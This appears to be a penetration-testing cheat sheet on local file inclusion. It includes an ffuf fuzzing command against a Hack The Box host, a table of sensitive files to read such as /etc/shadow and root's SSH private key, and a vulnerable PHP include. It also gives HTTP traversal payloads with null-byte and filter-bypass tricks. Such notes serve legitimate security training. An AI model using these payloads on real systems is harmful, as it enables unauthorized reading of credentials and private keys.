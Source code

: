 # LFI enumeration
Read more https://book.hacktricks.xyz/pentesting-web/file-inclusion

```bash
# Enumerate the page query parameter for LFI vulneratbility
ffuf -w /usr/share/wordlists/lfi.txt -u http://preprod-marketing.trick.htb/index.php?page=FUZZ -fw 1
```

### Common path to test
|                             |                                                                                                                                                                   |
|:---------------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------:|
| /etc/issue                  | Contains a message or system identification to be printed before the login prompt.                                                                                |
| /etc/profile                | Controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived |
| /proc/version               | Specifies the version of the Linux kernel                                                                                                                         |
| /etc/passwd                 | Has all registered user that has access to a system                                                                                                               |
| /etc/shadow                 | Contains information about the system's users' passwords                                                                                                          |
| /root/.bash_history         | Contains the history commands for root user                                                                                                                       |
| /var/log/dmessage           | Contains global system messages, including the messages that are logged during system startup                                                                     |
| /var/mail/root              | All emails for root user                                                                     |
| /root/.ssh/id_rsa           | Private SSH keys for a root or any known valid user on the server                                                 |
| /var/log/apache2/access.log | The accessed requests for Apache  webserver                                                            |
| C:\boot.ini                 | Contains the boot options for computers with BIOS firmware                                                    |

### Test if null bytes can be used to bypass file extensions
It may be possible to override the end of the include statement by sending a null byte which tricks the application to disregard anything after it. `%00` (Url encoded) or `0x00` (Hex).

An include like this 

```php
include($_GET["filename"] . ".php");
```

Could be vulnerable to an attack like this. (Fixed in PHP 5.3.4 and above.)


```HTTP
GET http://site.com/index.php?filename=../../../../etc/passwd%00
```

### Filter bypasses

#### Bypass filename black list filter
It's possible that there's a filter being applied that disallowes certain file names. In that case it could be possible to bypass the filter by sending a null byte `(%00 or 0x00)` or by adding the current directory `(.)` to the end of the file path. 

If there's for example a filter disallowing the `/etc/passwd` file it might be possible to bypass it with one of these requests.

**Null Byte**
```HTTP
GET http://site.com/index.php?filename=../../../../etc/passwd%00
```

**Current directory**
```HTTP
GET http://site.com/index.php?filename=../../../../etc/passwd/.
```

#### Bypass `../` replacement
In some cases the application might replace `../` with an empty string to try and prevent directoy traversal. In that case it could be possible to bypass it by sending a string like this `....//....//etc/passwd`. This is because some languages will only replace matches in the original string and wont't try to match occurances in the resulting string. 

```HTTP
GET http://site.com/index.php?filename=....//....//etc/passwd/.
```

Would after replacing any `../` result in the application looking for a file called  `../../etc/passwd`
